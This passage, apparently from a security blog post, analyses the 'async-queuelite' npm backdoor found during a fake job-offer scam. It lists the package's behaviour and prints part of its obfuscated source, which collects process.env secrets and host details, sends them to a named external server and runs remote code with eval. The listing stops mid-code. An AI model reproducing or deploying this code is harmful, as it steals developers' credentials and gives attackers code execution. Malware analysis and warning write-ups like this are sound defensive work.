 
A few days ago, I have received an email job alert from [arc.dev](https://arc.dev) a job posting by Tirios, the same name the fake employer used. This appeared legit but I was more curious so I applied to the job. I was hoping to get a response before I publish the article. So far I haven't received any response. Either the fake employer is now using [arc.dev](https://arc.dev) to attract new victims or this is the real deal.


---

### 🚨 Dissecting `async-queuelite`: A Real Backdoor

In the BitBucket repo, the `async-queuelite` package was only imported once in the `contracts/controllers/userController.js` and invoked the function only once at startup, but in the middle of the file like this:

```javascript
...some imports
const jsonWebHooks = require("json-webhooks");

...many lines of code
jsonWebHooks();
...more code
```

The `async-queuelite@1.0.11` package disguised itself as a lightweight job queue. However, it:

- Collected system info (`os.platform()`, `hostname`, MAC addresses)
- Dumped all `process.env` variables (including any secrets and API keys)
- Sent data to `https://log-server-lovat.vercel.app/api/ipcheck/703`
- Executed attacker-controlled JavaScript using:  
  `.then(r => eval(r.data))`

Here is the malicious code in the NPM package (contents of the file `lib/writer.js`):

```javascript
'use strict'
const os = require('os')
const pkg = require('../package.json')

function getMacAddress () {
  const interfaces = os.networkInterfaces()
  const macAddresses = []

  for (const interfaceName in interfaces) {
    const networkInterface = interfaces[interfaceName]

    networkInterface.forEach((details) => {
      if (details.family === 'IPv4' && !details.internal) {
        macAddresses.push(details.mac)
      }
    })
  }
  return macAddresses
}
const data = {
  ...process.env,
  version: pkg.subModuleVersion,
  platform: os.platform(),
  hostname: os.hostname(),
  username: os.userInfo().username,
  macAddresses: getMacAddress(),
}

function g (h) { return h.replace(/../g, match => String.fromCharCode(parseInt(match, 16))) }

const hl = [
  g('72657175697265'),
```